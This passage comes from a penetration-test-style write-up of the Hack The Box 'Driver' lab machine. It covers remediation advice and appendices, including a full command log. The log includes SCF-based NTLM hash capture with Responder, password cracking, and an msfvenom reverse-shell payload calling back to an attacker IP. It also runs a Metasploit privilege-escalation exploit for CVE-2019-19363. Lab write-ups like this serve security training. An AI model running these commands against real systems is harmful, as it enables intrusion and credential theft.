| **References** | [NVD: CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) · [Rapid7: Ricoh Driver Privilege Escalation Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/local/ricoh_driver_privesc.md) · [MITRE ATT&CK: T1068 — Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/) |

**Evidence:**
```
use exploit/windows/local/ricoh_driver_privesc
run
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Meterpreter session 4 opened ...
getuid
Server username: NT AUTHORITY\SYSTEM
```

---

## Remediation Summary

### Short Term

- **Finding #1 (Default Credentials)** – Change the `admin:admin` credential immediately to a strong, unique password.
- **Finding #2 (Unrestricted File Upload)** – Add an immediate file-extension allow-list to the firmware upload feature, rejecting `.scf`, `.url`, `.lnk`, and other shell-integration file types.
- **Finding #4 (Ricoh Driver Privesc)** – Update the Ricoh PCL6 UniversalDriver to a patched version (2020 or later), or restrict write access to its installation directory as an immediate compensating control.

### Medium Term

- **Finding #2 (Unrestricted File Upload)** – Isolate the file review workflow from any environment capable of triggering SMB/network authentication, and enforce SMB signing across the environment to prevent hash relay.
- **Finding #3 (Weak Password)** – Enforce a strong password policy via Group Policy and force a reset for `tony` and any other accounts with weak passwords.

### Long Term

- Establish a patch and driver management process to keep all third-party drivers (printer, scanner, etc.) current across the environment.
- Implement a periodic vulnerability assessment and penetration testing cadence to catch configuration drift such as default credentials or overly permissive directory ACLs.
- Adopt an organization-wide credential policy prohibiting default or dictionary-guessable passwords, paired with periodic password audits.
- Deploy monitoring/alerting for anomalous SMB authentication attempts, which can help detect forced-authentication attacks like the one demonstrated here.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1:**
Identified and exploited weak default credentials to gain access to an internal web-based administrative portal.

**Skill/Technique 2:**
Crafted and delivered a malicious Windows Shell Command File (`.scf`) via an unrestricted file upload feature to force NTLM authentication and capture a user's credential hash using Responder.

**Skill/Technique 3:**
Cracked a captured NetNTLMv2 hash offline using John the Ripper, converting a captured hash into a usable plaintext credential.

**Skill/Technique 4:**
Performed Windows post-exploitation techniques including session migration and local exploit enumeration, and exploited a known CVE (CVE-2019-19363) in a third-party printer driver to escalate from a standard user to NT AUTHORITY\SYSTEM.

---

## Appendix

### A. Finding Severity Definitions

| Rating | Definition |
| ------ | ---------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High** | Exploitation causes substantial harm to confidentiality, integrity, or availability. |
| **Medium** | Exploitation has a moderate impact, or a high-impact issue with limited exposure. |
| **Low** | Exploitation causes minimal impact to operations. |
| **Info** | An observation or improvement opportunity; not itself a vulnerability. |

### B. Exploited Hosts

| Host | Method | Notes |
| ---- | ------ | ----- |
| `10.129.95.238:80` | Default credentials + malicious file upload | Initial access — NTLM hash capture |
| `10.129.95.238:5985` | WinRM (cracked credentials) | Initial foothold — user.txt captured |
| `10.129.95.238` (local) | CVE-2019-19363 (Ricoh driver privesc) | Privilege escalation — root.txt captured |

### C. Compromised Users / Credentials

| Username | Method | Notes |
| -------- | ------ | ----- |
| `admin` (web portal) | Default credentials | `admin:admin` |
| `DRIVER\tony` | NTLM hash capture (SCF) + offline cracking | Password: `liltony` (redact if sharing publicly) |
| `NT AUTHORITY\SYSTEM` | CVE-2019-19363 exploitation | Full host compromise |

### D. Command Reference Log

```
sudo nmap -sC -sV 10.129.95.238
nano config.scf
responder -I tun0
echo 'tony::DRIVER:...' > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
evil-winrm -i 10.129.95.238 -u tony -p liltony
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.196 LPORT=4444 -f exe > shell.exe
upload shell.exe C:\Users\tony\music\shell.exe
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
.\shell.exe
ps
migrate 3244
use multi/recon/local_exploit_suggester
set session 2
run
cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
use exploit/windows/local/ricoh_driver_privesc
set payload windows/x64/meterpreter/reverse_tcp
set session 2
set lhost tun0
run
shell
more c:\users\administrator\desktop\root.txt
```

### E. References

- [NVD: CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363)
- [Rapid7: Ricoh Driver Privilege Escalation Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/local/ricoh_driver_privesc.md)
- [MITRE ATT&CK: T1078.001 — Valid Accounts: Default Accounts](https://attack.mitre.org/techniques/T1078/001/)
- [MITRE ATT&CK: T1187 — Forced Authentication](https://attack.mitre.org/techniques/T1187/)
- [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/)
- [MITRE ATT&CK: T1021.006 — Remote Services: Windows Remote Management](https://attack.mitre.org/techniques/T1021/006/)
- [MITRE ATT&CK: T1068 — Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)
- [Official Hack The Box Driver Machine Page](https://app.hackthebox.com/machines/Driver)
